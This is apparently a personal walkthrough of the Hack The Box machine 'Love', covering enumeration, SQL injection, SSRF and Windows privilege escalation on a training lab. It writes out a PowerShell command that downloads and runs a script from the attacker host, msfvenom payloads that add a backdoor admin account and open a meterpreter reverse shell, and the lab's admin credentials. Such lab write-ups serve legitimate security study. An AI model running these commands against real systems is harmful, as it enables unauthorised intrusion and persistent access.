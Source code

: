 # Enumeration 
10.129.48.103
## open ports

80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
Discovered open port 5985/tcp on 10.129.48.103

### Port 5000
![[Pasted image 20230113050648.png]]

### port 445 
Anonymous login not permitted 

### port 80
gobuster found /admin

![[Pasted image 20230113044852.png]]

save login request from burp and run it through sqlmap
![[Pasted image 20230113050834.png]]

![[Pasted image 20230113050846.png]]
we have blind sqli 

### port 443

certificate shows 2 domains
![[Pasted image 20230113053208.png]]
adding 2 of them to /etc/hosts

`echo "10.129.48.103 love.htb staging.love.htb" | sudo tee -a /etc/hosts`

![[Pasted image 20230113053328.png]]
![[Pasted image 20230113053348.png]]

### staging.love.htb port 80

![[Pasted image 20230113054542.png]]

/beta.php has interesting stuff
![[Pasted image 20230113061402.png]]
we can access localhost pages from here using SSRF
![[Pasted image 20230113061443.png]]

checking forbbiden pages from earlier 
![[Pasted image 20230113061514.png]]


back to port 80/admin
![[Pasted image 20230113061618.png]]
we are in

# Foothold 

found cve for voter system 
![[Pasted image 20230113062125.png]]

change ip's and path 
![[Pasted image 20230113061838.png]]

![[Pasted image 20230113062142.png]]

![[Pasted image 20230113062150.png]]
and we have a shell

# Privesc 

running powerup

```
powershell -ep bypass
IEX(new-object net.webclient).downloadstring('http://10.10.16.19/PowerUp.ps1')
Invoke-AllChecks

```

![[Pasted image 20230113071622.png]]
![[Pasted image 20230113071907.png]]

first we generate a malicious .msi file and upload it to the target 
let's add new user with admin privs 
```
 msfvenom -p windows/adduser USER=backdoor PASS=Password1! -f msi -o evil.msi
 curl http://10.10.16.19/evil.msi -o ev.msi
 msiexec /quiet /qn /i ev.msi
```
![[Pasted image 20230113073200.png]]
and backdoor user is created now we can login using evil-winrm or psexec 
`evil-winrm -i $ip -u backdoor -p Password1!`
![[Pasted image 20230113073334.png]]
and we are admin

# Metasploit

generate .exe meterpreter  shell 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.19 LPORT=9007 -f exe -o reverse.exe

```
start listener 

```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.16.19; set lport 9007; exploit"
```
Upload it to the target and run it 
![[Pasted image 20230113074446.png]]
![[Pasted image 20230113074527.png]]

```
use exploit/windows/local/always_install_elevated 
set session 1
set lhost tun0
run

```
![[Pasted image 20230113074544.png]]
![[Pasted image 20230113074554.png]]


# Loot

vote admin creds:
	username: admin
	password:@LoveIsInTheAir!!!!

---
Tags: #ctf #htb #SSRF #always_installed_elevated
Resources: [Love](https://app.hackthebox.com/machines/344)